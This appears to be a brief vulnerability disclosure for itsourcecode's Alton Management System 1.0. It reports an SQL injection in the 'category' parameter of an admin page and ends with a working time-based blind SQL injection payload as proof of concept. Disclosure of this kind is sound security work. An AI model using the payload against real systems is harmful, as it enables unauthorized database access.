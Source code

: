 # Vendor

itsourcecode

# Product

Alton Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/02/altonsystem.zip

# Description

Log in as an administrator user, access the "/admin/category_save. php" page, and pass in the category parameter. Due to lax filtering, this parameter can lead to SQL injection vulnerabilities.
<img width="1078" alt="image" src="https://github.com/user-attachments/assets/b24aea4e-41f2-49fa-98db-f3530ae978d9">

# Poc

```
Parameter: category (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: category=1' AND (SELECT 4315 FROM (SELECT(SLEEP(5)))UBMb) AND 'gUvK'='gUvK
```
